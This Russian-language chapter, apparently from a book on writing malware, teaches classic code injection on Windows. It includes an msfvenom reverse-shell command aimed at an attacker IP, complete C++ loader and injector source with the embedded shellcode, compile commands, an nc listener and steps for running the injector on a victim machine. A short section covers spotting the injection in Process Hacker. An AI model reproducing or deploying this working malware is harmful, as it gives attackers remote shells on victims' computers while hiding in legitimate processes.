






\newpage
\subsection{4. классическая инъекция кода в процесс. простое вредоносное ПО на C++}
\label{4. классическая инъекция кода в процесс. простое вредоносное ПО на C++}    

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="75%"}

Давайте поговорим об инъекции кода. Что такое инъекция кода? И зачем мы это делаем?   

Техника инъекции кода - это простой метод, при котором один процесс, в нашем случае это наше вредоносное ПО, внедряет код в другой запущенный процесс.    

Например, у вас есть вредоносное ПО - это может быть дроппер из фишинговой атаки, троян, который вы смогли доставить жертве, или любой другой код. И по какой-то причине вам может понадобиться выполнить вашу полезную нагрузку (шеллкод) в другом процессе.   

Что я имею в виду? В этом посте мы не рассматриваем создание трояна, но, например, представьте, что ваш полезный код выполняется внутри `word.exe`, который имеет ограниченное время жизни. Допустим, вам удалось получить удаленную оболочку, но вы знаете, что ваша жертва закроет `word.exe`. В такой ситуации вам придется мигрировать в другой процесс, если вы хотите сохранить свою сессию.     

В этом посте мы обсудим классическую технику инъекции полезной нагрузки с использованием API отладки (debugging API).    

Прежде всего, давайте подготовим наш полезный код. Для простоты мы используем полезную нагрузку обратной оболочки `msfvenom` из Kali Linux.

На машине атакующего выполните:
```bash
msfvenom -p windows/x64/shell_reverse_tcp 
LHOST=10.9.1.6 LPORT=4444 -f c
```

Где `10.9.1.6` - это IP-адрес машины атакующего, а `4444` - порт, на котором позже будет запущен прослушиватель.    

{width="75%"}

Начнем с простого кода на C++ для нашего вредоносного ПО:
```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, 
  my_payload_len, MEM_COMMIT | MEM_RESERVE, 
  PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, 
  my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

Это нормально, если вы не понимаете большую часть кода. Я часто буду использовать похожие приемы и фрагменты кода. По мере чтения книги вы будете все больше и больше понимать концепции и фундаментальные вещи.   

Давайте сначала проверим.   

Компиляция:

```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++
-static-libgcc
```

{width="75%"}

Подготовка прослушивателя:   

```bash
nc -lvp 4444
```

и запуск с машины жертвы:    
```cmd
.\evil.exe
```

{width="75%"}

Как видите, все работает.   

Для анализа `evil.exe` мы будем использовать [Process Hacker](https://processhacker.sourceforge.io/downloads.php). Process Hacker - это инструмент с открытым исходным кодом, который позволяет увидеть, какие процессы запущены на устройстве, определить программы, потребляющие ресурсы процессора, и выявить сетевые соединения, связанные с процессом.   

{width="75%"}

Затем во вкладке `Network` мы увидим, что наш процесс устанавливает соединение с `10.9.1.6:4444` (хост атакующего):    

{width="75%"}

Теперь давайте внедрим наш полезный код в процесс. Например, `calc.exe`. То есть, нам нужно переместить выполнение нашего кода в целевой процесс, иначе говоря, заставить его выполняться в другом процессе на той же машине. Например, в `calc.exe`.

{width="75%"}

Первое, что нужно сделать, - это выделить память внутри целевого процесса, причем размер выделенного буфера должен быть как минимум равен размеру полезной нагрузки:   

{width="75%"}

Затем мы копируем нашу полезную нагрузку в целевой процесс `calc.exe` в выделенную память:    

{width="75%"}

И затем "просим" систему начать выполнение нашего кода в целевом процессе, которым является `calc.exe`.

{width="75%"}

Теперь давайте напишем код для этой простой логики.   
Самая популярная комбинация для выполнения этого - использование встроенных функций Windows API, которые предназначены для целей отладки. Это:   
- [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
- [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
- [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   

Простейший пример:
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  my_payload_len, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Сначала вам нужно получить PID процесса. Вы можете ввести этот PID вручную в нашем случае. Затем "откройте" процесс с помощью функции [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess), предоставляемой библиотекой `Kernel32`:   
{width="75%"}

Далее используем `VirtualAllocEx`, которая позволяет выделить буфер памяти для удаленного процесса **(1)**:

{width="75%"}

Затем `WriteProcessMemory` позволяет "копировать" данные между процессами, поэтому "копируем" наш полезный код в процесс `calc.exe` **(2)**. А `CreateRemoteThread` похожа на функцию `CreateThread`, но в этом случае можно указать, в каком процессе должен быть запущен новый поток **(3)**.

Теперь давайте скомпилируем этот код:    

```bash
x86_64-w64-mingw32-gcc evil_inj.cpp -o evil2.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc
```

{width="75%"}

Подготовка прослушивателя:
```bash
nc -lvp 4444
```

На машине жертвы сначала запустите `calc.exe`:    

{width="75%"}

Мы видим, что идентификатор процесса `calc.exe` - `1844`.

Затем запустим наш инжектор на машине жертвы:

```powershell
.\evil2.exe 1844
```

{width="75%"}

Прежде всего, мы видим, что ID `calc.exe` тот же, а наш `evil2.exe` создает новый процесс `cmd.exe`. Во вкладке `Network` мы видим, что наш полезный код выполняется (потому что `calc.exe` установил соединение с хостом атакующего):

{width="75%"}

Теперь давайте исследуем процесс `calc.exe`. Перейдите во вкладку `Memory`, где можно найти выделенный нами буфер памяти.

{width="75%"}

Если заглянуть в исходный код, мы увидим, что выделяем исполняемый и читаемый буфер памяти в удаленном процессе:    

{width="75%"}

В Process Hacker можно выполнить поиск и отсортировать по *Protection*, прокрутить вниз и найти регион, который одновременно читаемый и исполняемый:

{width="75%"}

В памяти `calc.exe` существует множество таких регионов.

Однако обратите внимание, что `calc.exe` загрузил модуль `ws2_32.dll`, чего не должно происходить при нормальных обстоятельствах, так как этот модуль отвечает за управление сокетами:

{width="75%"}

Таким образом, мы можем внедрить код в другой процесс.

Но есть нюанс. Открытие другого процесса с доступом на запись подчиняется ограничениям. Одной из мер защиты является Mandatory Integrity Control (MIC). MIC - это метод защиты, контролирующий доступ к объектам на основе их "уровня целостности".

Существует 4 уровня целостности:
- *низкий уровень* - процессы с ограниченным доступом к системе (например, Internet Explorer);   
- *средний уровень* - используется по умолчанию для процессов, запущенных обычными пользователями и администраторами, если включен UAC;   
- *высокий уровень* - процессы, выполняемые с привилегиями администратора;   
- *системный уровень* - для пользователей SYSTEM, обычно это уровень системных служб и процессов, требующих наивысшей защиты.    

Пока что мы не будем углубляться в это. Сначала я постараюсь разобраться в этом самостоятельно.    

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[исходный код на Github](https://github.com/cocomelonc/2021-09-19-injection-1)
